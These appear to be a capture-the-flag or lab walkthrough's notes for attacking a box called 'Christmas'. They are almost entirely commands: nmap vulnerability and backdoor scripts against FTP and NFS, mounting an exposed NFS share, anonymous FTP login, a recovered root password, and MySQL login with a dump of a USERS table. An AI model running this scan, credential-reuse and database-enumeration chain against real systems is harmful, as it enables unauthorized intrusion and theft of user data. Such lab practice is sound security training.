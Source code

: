 # Christmas Service Exploitation

Nmap ftp/21
```
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $IP
```

Nmap NFS/111
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
nmap --script nfs-showmount.nse $IP -p 111
```

# Now get the mount
```
/opt/files 
sudo mount $IP:/opt/files /mnt/ChristNFS
ls -la /mnt/ChristNFS
```

# Now have the ftp passwd
ftp $IP
Name Anonymous
PW securepassword123

# Now we're in the ftp
```
help
get file.txt
```

# Now we have the ssh credential of root
`ff912ABD*`

```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```

# Login in to the mysql
```
mysql -u root -p'ff912ABD*' \
      -h $IP -P 3306 
```

# Enumerate the database 
SHOW DATABASES;
USE data;
SHOW TABLES;
SELECT * FROM USERS;

